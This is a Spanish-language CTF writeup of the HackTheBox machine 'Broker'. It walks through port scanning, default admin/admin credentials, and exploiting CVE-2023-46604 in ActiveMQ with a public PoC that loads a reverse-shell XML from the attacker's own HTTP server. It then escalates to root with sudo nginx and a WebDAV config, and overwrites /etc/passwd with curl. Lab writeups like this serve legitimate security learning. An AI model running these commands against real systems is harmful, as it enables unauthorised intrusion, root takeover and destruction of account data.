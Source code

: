 ```yaml
---
title: Broker
date: 2024-08-19
categories: [WRITEUPS, HackTheBox]
tags: [activemq]  # TAG names should always be lowercase
image: /assets/images/hackthebox/htblogo.png
---
```


![picture](/assets/images/hackthebox/broker1.png)

Buenas, en esta máquina explotaremos la vulnerabilidad *CVE-2023-46604*, que afecta a **ActiveMQ**, y para la escalada de privilegios, utilizaremos el binario **nginx**.

---

En este ***Writeup*** se engloban las siguientes fases:
- **[Reconocimiento](#reconocimiento)**
- **[Explotación](#explotación)**
- **[Escalada de privilegios](#escalada-de-privilegios)**

---

## **Reconocimiento**

Lo primero que realizaremos será un escaneo de puertos con **NMAP**, para comprobar los  puertos abiertos de la máquina, y los servicios que corren por los puertos.

```bash
nmap -p- --open 10.10.11.243 -Pn
```
![picture](/assets/images/hackthebox/broker2.png)

Realizando otro escaneo, para encontrar las versiones de los servicios, se han encontrado los siguientes.

```bash
nmap -p22,80,1883,5672,8161,35277,61613,61614,61616 -T5 -sVC 10.10.11.243
```

![picture](/assets/images/hackthebox/broker3.png)

- 22/tcp - SSH: Protocolo seguro para acceso remoto a la máquina mediante línea de comandos.
- 80/tcp - HTTP (nginx): Servidor web Nginx.
- 1883/tcp - MQTT: Protocolo de mensajería ligero usado principalmente en dispositivos IoT.
- 5672/tcp - AMQP: Protocolo de mensajería para transferencia fiable y segura de mensajes entre sistemas.
- 8161/tcp - HTTP (Jetty): Servidor web Jetty, posiblemente utilizado para interfaces administrativas o aplicaciones dedicadas.
- 35277/tcp - tcpwrapped: Indica que el puerto está protegido, dificultando la identificación precisa del servicio.
- 61613/tcp - STOMP (Apache ActiveMQ): Protocolo de mensajería de texto simple, usado con Apache ActiveMQ.
- 61614/tcp - HTTP (Jetty): Otro servicio HTTP Jetty, posiblemente relacionado con la administración de ActiveMQ.
- 61616/tcp - ApacheMQ (OpenWire): Protocolo nativo de Apache ActiveMQ para comunicación de mensajería entre aplicaciones

Viendo cada puerto nos centraremos más en los servidores Web, ya sea puerto **80**, **8161** y **61614**.

Si introducimos la dirección **IP** en el navegador para ver el servicio **HTTP**, vemos que nos aparece un panel de **login**.

![picture](/assets/images/hackthebox/broker4.png)

Probando credenciales comunes, con ***admin/admin*** he podido acceder. 

Es un panel de **ActiveMQ**, es un bróker de mensajería de código abierto de *Apache* escrito en *Java* junto con un cliente de servicio de mensajes Java completo. Proporciona diferentes tipos de servicios de alta disponibilidad, de intercambio de archivos, de intercambio de bases de datos, etc.

![picture](/assets/images/hackthebox/broker5.png)

Podemos comprobar la versión en el apartado de admin.

![picture](/assets/images/hackthebox/broker6.png){: w="600" h="300" }

---

## **Explotación**

Buscando por internet he encontrado **CVE-2023-46604**, que es una vulnerabilidad crítica en **Apache ActiveMQ**, las versiones anteriores a **5.18.3**, **5.17.6**, **5.16.7** y **5.15.16** son vulnerables. Ésta vulnerabilidad crea en **ActiveMQ** un archivo **XML**, en el cual introduciremos una **Reverse Shell**.

Ataca directamente al puerto **61616**, el cual hemos comprobado antes que estaba abierto.

Nos vamos a clonar el siguiente repositorio de [Github](https://github.com/rootsecdev/CVE-2023-46604), que nos proporcionará una **Reverse Shell**.

```bash
git clone https://github.com/rootsecdev/CVE-2023-46604
```

Modificaremos el archivo "**poc-linux.xml**", añadiéndole nuestra **IP** y el **puerto** por el que queramos entablar la **Reverse Shell**.

![picture](/assets/images/hackthebox/broker7.png)

Seguimos los siguientes pasos por orden: creamos el servidor **HTTP**, iniciamos el **Listener** y ejecutamos el **script**.

![picture](/assets/images/hackthebox/broker8.png)

1. Ejecución del script

    ```go
    go run main.go -i 10.10.11.243 -p 61616 -u http://10.10.16.11:8888/poc-linux.xml2
    ```

2. Creción del servidor **HTTP** por el puerto por el cual vamos a hacer referencia al archivo poc-linux.xml.

    ```bash
    pyhton3 -m http.server 8888
    ```
3. Creción del **Listener** por el puerto por el que hemos indicado en el archivo **poc-linux.xml**, para que nos envíe la **Reverse Shell**.

    ```bash
    nc -nlvp 9001
    ```
Y una vez hemos ejecutado todo obtenemos acceso a la máquina.

![picture](/assets/images/hackthebox/broker9.png)

En la carpeta personal encontramos la flag del usuario.

![picture](/assets/images/hackthebox/broker10.png){: w="600" h="300" }

---

## **Escalada de privilegios**

Listando los permisos de **sudo** del usuario, vemosque no necesita contraseña para ejecutar ***nginx***.

![picture](/assets/images/hackthebox/broker11.png)

Para escalar privilegios, crearemos un archivo de configuración de ***nginx***, por el cual podamos realizar peticiones para leer o introducir archivos en la máquina vulnerable siendo **root**.

- Archivo de configuración (nginx.conf)

```bash
user root;
events {
        worker_connections 1024;
}
http {
        server{
                listen 8888;
                root /;
                dav_methods PUT;
        }
}
```

Ejecutamos el siguiente comando.

```bash
sudo /usr/sbin/nginx -c /home/activemq/nginx.conf
```

A continuación, añadiré un usuario nuevo al **/etc/passwd** con la *shell* de **root**. (la contraseña cifrada es: password123)

(<mark>IMPORTANTE:</mark> funciona, y podremos leer la flag, aunque esto borrará todos los usuarios del sistema ya que sobrescribirá el usuario añadido sobre los demás, no sería funcional, se podría **leer** la flag directamente, o añadir una clave pública al archivo de **authorized_keys**, y entrar vía **SSH** con la **clave privada**)

```bash
curl -X PUT http://localhost:8888/etc/passwd -d "pwned:$1$xyz$QeYhJjMn0Cz1qxjZ5Pl4q1:0:0:root:/root:/bin/bash"
```

Y una vez migramos de usuario, podemos leer la **flag** de **root**.

![picture](/assets/images/hackthebox/broker12.png)

![picture](/assets/images/hackthebox/broker13.png){: w="600" h="300" }